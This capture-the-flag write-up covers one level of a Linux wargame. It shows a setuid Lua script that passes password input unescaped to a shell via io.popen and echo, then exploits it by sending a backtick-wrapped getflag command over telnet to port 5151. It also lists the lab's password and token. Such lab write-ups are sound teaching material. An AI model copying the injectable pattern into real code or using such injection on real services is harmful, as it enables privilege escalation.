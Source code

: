 # Level11 - Flag11

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level11 | `feulo4b72j7edeahuete3no7c` |
| flag11  | ``                          |
| token   | `fa6v5ateaw21peobuub8ipe6s` |

## Steps to resolve on VM

1. Connect to `level11` user and notice there is a lua script with setuid bit

```bash
ssh level11@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

2. Check the file

```bash
cat level11.lua
```

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151)) -- localhost:5151

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r") -- Note echo and "pass" parameter
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

While reading the script, we can see what the program do.

It asks for a password, then hashes it, then compares the hashed password with an other hashed string, and finally... nothing, just return a useless message.

It would be a waste a time to try to decrypt the hashed string.

The interesting thing here is `echo` runned by a program with setuid permission. We can exploit this echo and inject a command.

3. Run the script (or check it is already running)

Check running process

```bash
ps aux | grep level11.lua

> USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
> flag11    2041  0.0  0.0   2892   828 ?        S    15:02   0:00 lua /home/user/level11/level11.lua
```

Check listening ports

```bash
netstat -tulpn | grep 5151

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```

If the program is already running and the port 5151 open, we can ignore this step.

Otherwise run:

```bash
./level11.lua
```

4. Exploit echo with injection

Exploit echo command inside script while injecting getflag command

```bash
telnet localhost 5151

> Trying 127.0.0.1...
> Connected to localhost.
> Escape character is '^]'.
> Password :
```

Then injection command instead of password :

```bash
`getflag > /tmp/getflag`

# ignore next messages
> Erf nope..
> Connection closed by foreign host.
```

7. Get level flag

Finally, read `/tmp/getflag`

```bash
cat /tmp/getflag

> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man telnet](https://linux.die.net/man/1/telnet)
